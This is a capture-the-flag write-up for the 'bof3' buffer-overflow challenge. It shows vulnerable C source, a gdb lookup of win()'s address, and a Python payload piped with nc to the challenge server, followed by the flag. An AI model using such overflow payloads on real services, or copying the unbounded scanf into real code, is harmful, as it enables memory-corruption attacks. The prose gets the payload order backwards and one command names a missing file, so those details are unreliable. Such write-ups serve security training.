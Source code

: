 # bof3

Both a binary and a C source file were given.

```
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

void lose(void) {
	puts("you suck!\n");
	fflush(stdout);
	exit(0);
}

int main(void) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s", bof);
	fp();
	return 0;
}

```
This challenge is almost the same as bof2.

To get the flag, ```fp``` has to be changed to the address of ```win()```; this can be found using the gdb debugger. The payload would be simply the address of win concatenated with 64 As.

```
$ gdb ./bof3
(gdb) print win
$1 = {<text variable, no debug info>} 0x8049256 <win>
```

**Solution**
```
$ python -c "print('A' * 64 + '\x56\x92\x04\x08')" > my_file
$ cat file my_file | nc ctf.hackucf.org 9002
```

**Flag**
```
flag{time_to_get_out_of_the_kiddie_pool}
```
